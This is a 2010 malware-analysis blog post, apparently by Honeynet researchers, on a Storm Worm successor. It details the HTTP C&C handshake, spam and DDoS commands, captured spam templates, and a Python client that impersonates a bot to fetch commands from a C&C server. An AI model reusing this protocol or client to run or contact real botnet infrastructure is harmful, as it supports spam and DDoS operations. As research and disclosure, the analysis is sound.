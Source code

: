 ```yaml
---
title: "A Breeze of Storm"
date: "2010-04-28"
categories: 
  - "encryption"
tags: 
  - "storm-worm"
  - "stormfucker-d69"
---
```


Today, Steven Adair from Shadowserver imformed us about a new piece of malware that looks like a new version of the infamous Storm Worm. Storm was one of the first serious peer-to-peer botnets, it was sending out spam for more than two years until its decline in late 2008. Mark Schloesser, Tillmann Werner, Georg Wicherski, and I [Stormfucker](http://www.h-online.com/security/news/item/Storm-Worm-botnet-cracked-wide-open-739607.html>did some work on how to take down Storm</a> back then, so the rumors about a new version caught our interest. Mark, Tillmann, and me started to take the sample apart, and it looks very much like Storm indeed. It even uses the same configuration file, stored under C:\WINDOWS\herjek.config (the same filename as used by the last Storm version), but as the command-and-control channel has been replaced with an HTTP based version, there is no peer list included anymmore. When we looked at it, just contained two lines:
<code>
[config]
ID=285220200
</code>
This ID is also stored in the registry under HKLM/SOFTWARE/Microsoft/Windows/ITStorage/Find, together with a mutex name that prevents execution of multiple instances of the malware on one machine.
<div></div>
[image:538 align=center node=538 size=original]
<div></div>
Just like Storm, this new malware decompresses itself into a heap section and jumps to the unpacked code. We just dumped the heap section to a file and fixed the imports to get an executable we can analyze conveniently.
<div></div>
Although this is already pretty good evidence that the two specimens are related, the question remains whether this is really a new Storm version, so let's have a look at the actual functionality. We compared the last version of storm to the new samples. Around 2/3s of the functions in the new sample are simply copy&paste from the last storm code base. Since the source code of storm has never been public, the same team of developers has finally created a new variant or sold it's code.
The original version was rather large, having more than 800 function. A large portion of this was the P2P code. This is missing completely in the new version and the actual command protocol is based on HTTP instead of plain TCP connections. We wonder if they don't rely on P2P anymore because of the attack implemented in <a href=).

The HTTP request looks like this: `POST /aio.jpg HTTP/1.1 Content-Type: application/x-www-form-urlencoded User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windoss NT 5.1; SV1) Host: [sanitized] Content-Length: 85 Connection: Keep-Alive Cache-Control: no-cache`

`a=eNozrFNMLC5OLMnMz6tTDM/MS8kvL1aICFAITi0qy0xOVQhITM5WMKpTNLQwMbG0tDQwNQeywcgAAGCpEo0HTTP/1.1 200 OK Server: nginx/0.7.65 Date: Tue, 27 Apr 2010 13:00:30 GMT Content-Type: text/html; charset=windows-1252 Transfer-Encoding: chunked Connection: close X-Powered-By: PHP/5.3.2

``78 AAAAXnheDYo5DsAgDATfwgNY2QaEeQ5HkgaRgtS8PS5Wox1NHXv6TJ5D9hxtQWEKe91dGLv1Z76tTqzrOy4TLISFRj2OjuOSIFEgpIj2hQrUFCs4/dVnGE0= 0`

All parameters and responses are base64 encoded and gzipped. Just like in the original Storm C&C protocol. The IP address of the server is hardcoded in the binary. Well, not really in the code but appended in encrypted form. The encryption is XTEA - the same cryptor used in early versions of Storm's packer.

The new version runs as "asam.exe". So, the authors have changed the executable's filename, but they either didn't look in the source code or were too lazy to change the name of the config file.

One method of command & control is implemented via HTTP requests. While looking at those requests we found another clue that this is actually a spinoff of Storm. The User-Agent is set to "Mozilla/4.0 (compatible; MSIE 6.0; Windoss NT 5.1; SV1)" which includes the (intended?) typo "Windoss" instead of "Windows" (this has already been mentioned by Steven, also). The requested path on the server consists of three random letters concatenated with a random choice from gif, jpg, htm extensions.

Also notable is the use of nginx as the web server as revealed by "Server: nginx/0.7.65" in the response. This is probably then relaying the request to upper tier servers in the C&C structure.

The actual command protocol is identical to the original Storm protocol. It consists of a handshake with two phases.

Stage 1 looks the following: `Postdata: 1~!VM1~!Windows XP Service Pack 3~!82647280~!1~!1~!0 ---- START Response data ---- secretserver.internet.ru~!1.2.3.4~!0~!195.242.208.40~!209.85.218.15`

Sent is the command "1", the machine name, operating system version, and an ID which identifies the machine in the further communication. It's like a session key used in HTTP application. The reponse is a reverse lookup of the public IP address of the host, the public IP itself, and other servers, like a Google MX.

Stage 2 looks the following:

`Postdata: 2~!82647280~!1~!0~!0 ---- START Response data ----`

Many people thought that this stage is useless. Actually, we found an "update" command in this stage of the handshake, which we used in our "Stormfucker", two years ago.

After this initial handshake, different requests for Spam (command 3) and DDoS attacks (command 6) are sent to the server.

The request for DDoS target is shown in the following. The response is empty (IP address: 0.0.0.0). In case of active DDoS targets, the IP address can be seen here.

`Postdata: 6~!82647280~!1~!0 ---- START Response data ---- 0.0.0.0:0;0.0.0.0:0;1;1 0.0.0.0:0;0.0.0.0:0;2;1`

The spam part looks the following. The client sends the spam-request command and the server returns the spam-templates, including faked mail server versions, subjects, receipients, target-domains, ...

`Postdata: 3~!82647280~!1~!~! ---- START Response data ---- 5~!1272366542~!Date: %^D^% From: "%^C2%^Fnames^%^%" <%^V2^%@%^C1%^Fdomains^%^%> MIME-Version: 1.0 To: %^0^% Subject: %^Fpharma2^% Content-Type: text/plain; charset=%^Fcharset^% Content-Transfer-Encoding: 7bit Message-ID: <%^Z^%.%^R1-9^%0%^R0-9^%0%^R0-9^%0%^R0-9^%@%^V1^%>`

`%^Forder.txt^% %^Frxmeds.txt^% online today! %^Fbrowse.txt^% our web site today -> %^Frxdomains2.txt^%

``~!~!eximver~!1269613000~!4.04 4.05 ... ~!domains_old~!1271522172~!007-jamesbond.com 3rivers.net 800loadcel.com ... zzum.ro ~!datingURLOLD~!1271796799~!http://12n3.com/2414 http://12n3.com/2415 ... http://vilasta.com/?yMzZuoUt ... http://wapurl.co.uk/?YCLUEZM ~!shemaleBabe~!1272144785~!babes sexy cute hot nice ~!pharma2~!1272305961~!Disappointed with your bad performance in bed? Step up your performance in bed! for the best performance in bed.. ... Want great sex? Get.. ~!datingURLNew~!1272148944~!http://www.odun.net/78774 http://yiyd.com/457991/ ... http://fytopavenukyz.my`

Mark took some time to write a command fetcher and decoder. Have fun with it :) `#!/usr/bin/env python`

`import os, sys, urllib, urllib2, string, random, base64, zlib, datetime

extensions = ['.gif', '.jpg', '.htm']

def make_url(url): return url + ''.join([random.choice(string.lowercase) for i in range(3)]) + random.choice(extensions)

def get_url(turl, pdata): req = urllib2.Request(turl, urllib.urlencode(pdata)) req.add_header('Content-Type', 'application/x-www-form-urlencoded') req.add_header('Cache-Control', 'no-cache') req.add_header('User-Agent', 'Mozilla/4.0 (compatible; MSIE 6.0; Windoss NT 5.1; SV1)') r = urllib2.urlopen(req) c = r.read() return c

def decode(raw): a = base64.b64decode(raw) b = zlib.decompress(a[a.find('x'):]) return b

def fetch(url, cmd): pdata = [('a', base64.b64encode(zlib.compress(cmd)).replace('=','') ),] furl = make_url(url) print ' Fetching', furl c = get_url(furl, pdata) print ' -> got', len(c), 'bytes' return c

def randomstr(length): return ''.join([random.choice(string.letters) for i in range(length)])

def randomdigits(length): return ''.join([random.choice(string.digits) for i in range(length)])

if __name__ == '__main__': from optparse import OptionError from optparse import OptionParser

version = """-------------------------- HTTP Command client for Storm worm 2 (supposedly) Version 1, by Honeynet Project --------------------------""" usage = '%s [-t target]' % sys.argv[0] parser = OptionParser(version=version, usage=usage)

parser.add_option('-t', dest='target', help='hostname/ip') (options, args) = parser.parse_args()

if not options.target: parser.print_help() sys.exit(1)

url = 'http://{0}/'.format(options.target)

seqnr = randomdigits(8) requests = [ '1~!{0}~!Windows XP Service Pack 3~!{1}~!1~!1~!0'.format(randomstr(8),seqnr), '2~!{0}~!1~!0~!0'.format(seqnr), '6~!{0}~!1~!0'.format(seqnr), '3~!{0}~!1~!~!'.format(seqnr), ]

print version print 'Using C&C URL', url

now = datetime.datetime.now() print 'Storing results in directory', str(now)

for r in requests: cmd = r[0] raw = fetch(url, r) dec = decode(raw) if not os.path.exists(str(now)): os.mkdir(str(now)) fpath = os.path.join(str(now), 'cmd_' + cmd + '.txt') fd = open(fpath, 'w') print >>fd, 'Requesting cmd {0} on {1}:'.format(cmd, url) print >>fd, 'Postdata:', r print >>fd, '---- START Response data ----' fd.write(dec) fd.close()

``print '-> Done.' sys.exit(0)`
